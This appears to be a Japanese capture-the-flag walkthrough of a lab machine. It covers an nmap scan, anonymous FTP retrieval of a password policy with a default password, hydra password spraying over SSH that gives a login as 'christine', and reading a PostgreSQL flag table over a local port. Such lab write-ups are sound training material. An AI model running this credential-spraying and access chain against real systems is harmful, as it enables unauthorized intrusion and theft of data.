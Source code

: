 # 1.Port Scan
ip=10.129.115.133

`nmap -sC -sV $ip`

![fe2b16b55b9f45992b9257128923effd.png](/_resources/fe2b16b55b9f45992b9257128923effd.png)

# 2.FTP Connect

`ftp $ip`

anonymousでloginする

name: anonymous

![dfa3aac7d0d864d24c50d60e46e342a0.png](/_resources/dfa3aac7d0d864d24c50d60e46e342a0.png)

mail_backupに2つのファイルがあることを確認

`cd mail_backup`

dir

get password_policy.pdf

get welcome_28112022

![74cd26d7f4e05405760aed3370dd5142.png](/_resources/74cd26d7f4e05405760aed3370dd5142.png)

入手したパスワードポリシーにデフォルトのパスワードが記載されている。

password_policy.pdf

![c2ef90d85b1f9303886116ec5b54909b.png](/_resources/c2ef90d85b1f9303886116ec5b54909b.png)


新しくチームに配属されたメンバーに対して送られたメールを入手

![2b3087a6548cae73a1de75c6e3c55351.png](/_resources/2b3087a6548cae73a1de75c6e3c55351.png)

# 3. Hydra

メールからusernames.txtを作成

`echo "optimus\n""albert\n""andreas\n""christine\n""maria\n" > usernames.txt`  

![5df5d011ebc8a24d3bc33297c035ee26.png](../_resources/5df5d011ebc8a24d3bc33297c035ee26.png)

ヒュドラでパスワードクラックを実施

`hydra -L usernames.txt -p 'funnel123#!#' 10.129.115.133 ssh`

`login: christine`
`password: funnel123#!#`

![702523a49102c3f11a7940de57f14eb2.png](/_resources/702523a49102c3f11a7940de57f14eb2.png)

sshで接続

![6369f256d375df2566d58e4b50b83ad2.png](/_resources/6369f256d375df2566d58e4b50b83ad2.png)

postgresqlをport5432を使用している事を確認

ss -tln 

![063e462b7df2fa0cd86f7d01a85e395d.png](/_resources/063e462b7df2fa0cd86f7d01a85e395d.png)

ss -tl

![aea4639f43ea6629388233d962707ec5.png](/_resources/aea4639f43ea6629388233d962707ec5.png)

ローカルマシンでポート1234を開けている事を確認

ss -tlpn

![00d5de00a7f3b4efa968ebd640a5eda1.png](/_resources/00d5de00a7f3b4efa968ebd640a5eda1.png)

# 4.Flag get

PostgreSQLに接続。flagを入手

`psql -U christine -h localhost -p 1234`

\l

\c secrets

\dt

SELECT * FROM flag;

![619651207f132284b358c3d00743a9a9.png](../_resources/619651207f132284b358c3d00743a9a9.png)
